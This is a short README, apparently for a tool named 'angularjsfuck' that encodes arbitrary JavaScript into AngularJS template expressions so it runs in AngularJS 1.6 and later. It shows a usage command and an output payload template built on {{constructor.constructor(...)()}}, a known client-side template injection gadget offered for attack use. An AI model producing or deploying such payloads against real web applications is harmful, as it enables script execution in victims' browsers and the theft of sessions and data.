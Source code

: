 # angularjsfuck

The goals is to permit the execution of any javascript code inside angularjs expressions starting from angular 1.6

 
Usage:
```
node index.js <javascript expression> [--clean]
```
Output:
```
{{constructor.constructor(<encoded javascript expression>)()}}

```
